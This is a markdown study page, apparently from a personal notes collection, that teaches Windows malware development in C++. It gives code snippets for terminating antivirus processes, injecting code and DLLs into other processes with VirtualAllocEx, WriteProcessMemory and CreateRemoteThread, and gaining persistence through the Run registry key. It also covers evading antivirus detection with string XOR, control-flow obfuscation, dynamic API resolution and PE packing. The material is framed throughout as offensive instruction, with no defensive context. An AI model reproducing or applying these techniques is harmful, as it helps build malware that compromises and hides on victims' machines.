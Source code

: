 # Index 
- [[Malware Development]]
	- [[2. Key C++ Concepts for Malware]]
		- [[2.1 Windows API (WinAPI) for Malware Development]]
		- [[2.2 Code Obfuscation Techniques]]
		- [[2.3 PE File Structure and Manipulation]]
		- [[2.4 DLL Injection Techniques]]

# Windows API (WinAPI) for Malware Development

The Windows API (WinAPI) is essential for interacting with system resources. Below are critical functions and techniques used in malware development:

#### Process Creation and Manipulation
Malware often needs to create or manipulate processes to execute its payload or hide its presence.

- `CreateProcess`: This function allows a program to create a new process (such as launching a legitimate program like `notepad.exe` or `svchost.exe`) and inject code into it.
  
    Example:
    ```cpp
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    
    if (CreateProcess(NULL, "C:\\Windows\\System32\\notepad.exe", NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi)) {
        // Process created successfully
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
    ```

- `OpenProcess` and `TerminateProcess`: These allow malware to open and terminate processes. You can use `OpenProcess` to gain a handle to a running process and `TerminateProcess` to kill specific processes like antivirus software.

    Example:
    ```cpp
    DWORD processID = 1234; // Target process ID
    HANDLE hProcess = OpenProcess(PROCESS_TERMINATE, FALSE, processID);
    
    if (hProcess) {
        TerminateProcess(hProcess, 0);  // Terminate the process
        CloseHandle(hProcess);
    }
    ```

#### Memory Manipulation
Malware often needs to allocate memory in other processes and manipulate it to execute arbitrary code. These are key APIs:

- `VirtualAllocEx`: Allocates memory in the address space of another process. This is used in process injection techniques.

    Example:
    ```cpp
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    ```

- `WriteProcessMemory`: Writes data to the memory space of a target process.

    Example:
    ```cpp
    WriteProcessMemory(hProcess, pRemoteMemory, buffer, bufferSize, NULL);
    ```

- `CreateRemoteThread`: After writing malicious code to the target process’s memory, you can use `CreateRemoteThread` to execute the code.

    Example:
    ```cpp
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteMemory, NULL, 0, NULL);
    ```

These three functions are frequently used in DLL injection and process hollowing techniques.

#### File and Registry Manipulation
Malware often needs to interact with the filesystem or the Windows registry to achieve persistence, execute commands, or gather information.

- File I/O: Use `CreateFile`, `WriteFile`, `ReadFile`, and `DeleteFile` for file manipulation. Malware can use this to create or modify files.
  
    Example:
    ```cpp
    HANDLE hFile = CreateFile("C:\\test.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD written;
        WriteFile(hFile, "Malware!", 8, &written, NULL);
        CloseHandle(hFile);
    }
    ```

- Registry Manipulation: Malware can modify the registry to set itself to run on startup. Commonly, it uses `RegOpenKeyEx`, `RegSetValueEx`, and `RegCloseKey`.

    Example:
    ```cpp
    HKEY hKey;
    RegOpenKeyEx(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_SET_VALUE, &hKey);
    RegSetValueEx(hKey, "MyMalware", 0, REG_SZ, (BYTE*)"C:\\malware.exe", strlen("C:\\malware.exe") + 1);
    RegCloseKey(hKey);
    ```

# Code Obfuscation Techniques

Obfuscation helps evade antivirus (AV) detection by making the malware binary harder to analyze. Here are common obfuscation techniques:

#### String Obfuscation
Plain strings in malware (e.g., URLs, file paths) are easily recognized by AV solutions. Encrypt or obfuscate these strings and decrypt them only when needed at runtime.

Example (simple XOR encryption):
```cpp
std::string encrypt(std::string input, char key) {
    std::string output = input;
    for (int i = 0; i < input.size(); i++) {
        output[i] = input[i] ^ key;  // XOR encryption
    }
    return output;
}

std::string decrypt(std::string input, char key) {
    return encrypt(input, key);  // XOR decryption is the same as encryption
}
```

In practice, you might use more complex algorithms, such as AES or custom schemes, to obfuscate strings or code blocks.

#### Control Flow Obfuscation
This technique modifies the structure of the code to confuse static analysis tools. Malware can use complex conditional statements and jumps to break up linear code flow.

Example (fake conditionals):
```cpp
void maliciousAction() {
    if (time(NULL) % 2 == 0) {  // Dummy condition
        return;
    }
    // Actual malicious code here
}
```

#### Function Pointers and Dynamic Function Resolution
Instead of calling functions directly, resolve them dynamically at runtime using `GetProcAddress` and `LoadLibrary`. This evades static detection by hiding function calls in plain sight.

Example:
```cpp
typedef BOOL(WINAPI* pIsDebuggerPresent)();
HMODULE hKernel32 = LoadLibrary("kernel32.dll");
pIsDebuggerPresent IsDebuggerPresent = (pIsDebuggerPresent)GetProcAddress(hKernel32, "IsDebuggerPresent");

if (IsDebuggerPresent()) {
    // Debugger detected
}
```

# PE File Structure and Manipulation

Understanding the Portable Executable (PE) file format is critical for bypassing static analysis and manipulating malware binaries. The PE format defines the structure of executables (EXE, DLL) in Windows.

#### Key Sections of the PE File
- Headers: Contain metadata about the binary, including the entry point.
- Text (.text) Section: Contains the executable code.
- Data (.data, .rdata) Section: Contains global variables and other data.
- Resource (.rsrc) Section: Stores application resources like icons or version info.

You can manipulate the PE headers or sections to evade static signature detection, such as:
- Changing entry point: Modify the EntryPoint in the PE header to mislead static analysis tools.
- Packing: Compress or encrypt the .text section of the binary and unpack it at runtime.

You can use libraries such as [pefile](https://github.com/erocarrera/pefile) in Python to parse and manipulate PE files or do it directly in C++ with the appropriate WinAPI functions.

# DLL Injection Techniques

DLL injection allows you to run arbitrary code in the context of another process. Common injection methods include:

#### Classic DLL Injection
1. OpenProcess to gain access to a target process.
2. VirtualAllocEx to allocate memory in the target process.
3. WriteProcessMemory to write the path of the DLL to be injected.
4. CreateRemoteThread to execute `LoadLibrary` in the context of the target process, which loads your malicious DLL.

```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
LPVOID pDllPath = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(hProcess, pDllPath, dllPath, strlen(dllPath), NULL);
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibrary, pDllPath, 0, NULL);
```

#### Reflective DLL Injection
This is an advanced technique where the DLL is injected into memory without being written to disk, thus avoiding file-based detection. In reflective injection, you build the code for the DLL loader, load it into memory, and execute it.